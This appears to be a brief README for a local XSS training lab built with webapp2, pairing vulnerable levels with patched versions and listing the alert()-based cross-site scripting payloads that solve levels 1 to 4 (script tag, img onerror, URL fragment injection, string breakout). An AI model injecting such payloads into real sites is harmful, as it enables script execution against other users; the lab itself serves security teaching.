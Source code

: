 steps:
1. install webapp2 related packages:
pip install -r  requirements.txt 

2. using the Python executable to launch webapp2 website:
python L1_patch.py

then visit:
http://127.0.0.1:8080/
to see we defense L1 level attack.
(L2, L3 ... L6 is just repeat step 2, change "python L1_patch.py" 's py name )


3.
when run python L1.py
input:
<script>alert()</script>

when run python L2.py 
input:
<img src='x' onerror='alert()'>

when run python L3.py
change url into:
http://127.0.0.1:8080/#1/frame#'onerror='alert(%22Level3%22)'

when run python L4.py
input:
3'**alert());//


